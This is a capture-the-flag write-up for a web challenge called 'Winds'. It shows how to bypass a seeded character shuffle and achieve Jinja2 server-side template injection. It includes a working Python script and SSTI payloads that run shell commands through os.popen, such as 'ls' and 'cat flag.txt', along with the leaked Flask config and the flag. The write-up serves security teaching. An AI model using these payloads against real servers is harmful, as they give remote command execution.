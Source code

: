 # Winds

## Description
```
Challenge: https://winds.web.actf.co/
```

## Provided Files
```
- app.py
```

## Writeup

Starting off, I inspected the provided `app.py` file. <br/>
The vulnerability I found inside was `missing input sanitization` on the input of the used `template`. <br/>
This would create a `Server-Side-Template-Injection` vulnerability which can be used to execute shell-code on the server. <br/>
The challenge hereby would be to bypass the `jumbling` of our input. <br/>
```py
random.seed(0)
jumbled = list(text)
random.shuffle(jumbled)
jumbled = ''.join(jumbled)
```

Knowing the seed used in the randomization, we can predict the exact output of our input. <br/>
If we can predict it we can insert a malicious payload to execute `SSTI`. <br/>
To test my guess I used a simple `template injection` using `{{config}}`. <br/>
The reversed version of it would be `gcinfo}{{}` which I reversed manually. <br/>

The result of the `SSTI` can be seen below. <br/>
```sh
Your voice echoes back: <Config {'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}> 
```

Knowing that it works I wrote a small python script which automates the `pre-jumbling` process. <br/>
```py
import random

# string with known chars to reverse indexes
empty = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"§$%&/()=?*+~-_#.:,;[]{}ß@`´^°öäü'


# "randomly" jumble input
def get_jumbled(text):
    random.seed(0)
    jumbled = list(text)
    random.shuffle(jumbled)
    return ''.join(jumbled)

# allocate characters to certain positions in order to reverse it after jumble
def get_alloc(length):
    alloc = {}

    for i, char in enumerate(empty[:length]):
        alloc[char] = i

    return alloc


## SSTI input to generate pre-jumbled exploit 
ssti = '{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen("cat flag.txt").read()}}'

## Used payloads:
# Payloads from https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python

## Check if SSTI works
# {{config}}
# gcinfo}{{}
# {{"".__class__.__mro__[1].__subclasses__()}}
# "_)_u_sccb_{sa__(1le_as.}s}r._s__{[o_.]l"m_s

## List files
# {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls").read()}}
# iTc_c)_els_eeltc_"oaals_fi.s_r.ep(t_(xrposoet).mn}oeR}p_ry_fe.a_ldb{c.nene"l{gel_..nte

## Read flag
# {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen("cat flag.txt").read()}}
# a.e._)ee{ccsafeimt r_n_{ngptcc_il(ys.nrtoa"xl)oRl}_el}eps__e(.apxde_f_.l.c"tfetaorg.ene.__tToblt



jumbled = get_jumbled(empty[:len(ssti)])
# print(jumbled)

alloc = get_alloc(len(ssti))
# print(alloc)


## -- generate dictionary with correct index-positions --

out = {}

for i, char in enumerate(jumbled):
    out[str(alloc[char])] = ssti[i]


# -- Generate pre-jumbled ssti from allocation dictionary --

result = ''

for i in range(len(ssti)):
    result += out[str(i)]

print(result)
```

The script essentially uses a known string `0123456789abcdefghijklmnopqrstuvwxyz...` to remember the positions of changed characters. <br/>
The `SSTI` input will then use these known positions to rearrange the `SSTI-payload` correctly. <br/>
Using the payloads above from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python) I was able to exploit the server and obtain the flag `actf{2cb542c944f737b85c6bb9183b7f2ea8}` and concludes this writeup.
